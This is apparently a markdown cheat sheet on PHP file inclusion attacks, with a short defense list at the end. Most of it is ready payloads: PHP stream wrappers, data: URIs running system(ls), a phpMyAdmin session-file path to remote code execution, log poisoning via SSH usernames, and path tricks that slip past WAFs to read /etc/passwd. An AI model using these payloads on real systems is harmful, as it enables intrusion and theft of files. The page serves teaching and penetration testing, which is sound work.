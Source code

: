 # File Inclusion    
Scene: Attacker can control the variable which can be used to include files  
Dangerous functions：  
PHP: `include()`, `include_once()`, `require()`, `require_once()`, `fopen()`, `readfile()`  
JSP: `java.io.FileReader()`  
ASP: `includefile`  
PHP will run the content of file as php script when it includes a file, so it is **not influenced by file type**.    

# RFI  
Include remote file, more dangerous, but more requirement, mostly dissapear in real world  
`php.ini` setting  
1. allow_url_fopen = on (default: on)  
2. allow_url_include = on (default: off)  

# Way to include  
1. php protocol  
```php
php://input
// Condition：allow_url_include = on
?file=php://input
POST data: xxx

php://filter
// get source code
?file=php://filter/read=convert.base64-encode/resource=file.php
// filter can be used on handling string, take a look at the reference#1
php://filter/read=string.strip_tags/resource=php://input

phar://path.zip/file.php
// php5.3.0up, parse the archived file

zip://path.zip%23file.php
// php5.3.0up, work as phar://, but need absolute path, and need to encode # as %23

data:URL schema
// php5.2up, two settings in php.ini set to on
?file=data:text/plain,<?php phpinfo();?>
?file=data:text/plain,<?php system(ls);?>
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b (base64 encode phpinfo)
```  
More protocol：`file://`,`ftp://`,`zlib://`,`glob://`,`ssh2://`,`rar://`,`ogg://`,`expect://`  

2. Session inclusion  
We can control the content of session, and we also know the path of session...  
Path of session can be got from `session_save_path` in phpinfo  
Place of stored session：  
```php
/var/lib/php/sess_xxxxx
/var/lib/php/sessions/sess_xxxx
/tmp/sess_xxxxxx
/tmp/sessions/sess_xxxxx
```  
CVE：  
phpmyadmin from LFI to RCE  
```php
xxx/phpmyadmin/index.php?target=xxx.php%253F/../../../../../var/lib/php/sessions/sess_xxxxxx
```  
3. Log inclusion  
**Permission** to read the log?  
Take apache for example, request would be written to `access.log`, and error would be written to `error.log`. The default stored path is `/var/log/apache2/`  
Therefore, attacker always needs to get the path via config file, and pay attention to whether the request would be encoded (use burp to modify the encoded request), then include the log in the end  
4. SSH log inclusion  
**Permission** to read？  
Default path: `/var/log/apache2/access.log`,`/var/log/apache2/error.log`  
```php
ssh '<?php phpinfo();?>'@remotehost
// phpinfo in log, and include
```  
5. include environ  
6. include fd  
7. include temp file  
8. include uploaded file  

# WAF bypass  
* Relative path bypass  
WAF usually detect **continuous** multiple `../`
```php
// according to parsing path

// not change
/./ not change
///./..//.//////./   -> use with conbination
```  
* Absolute path bypass, `/etc/passwd` would be blocked  
```php
/aaa/../etc/passwd
/etc/./passwd
```

# Defense  
Make a conclusion of the requirement above, we can get the following mitigation  
* php `open_basedir`  
* read permission  
* filter of dangerous characters  

# Reference  
1. [Phith0n 谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)
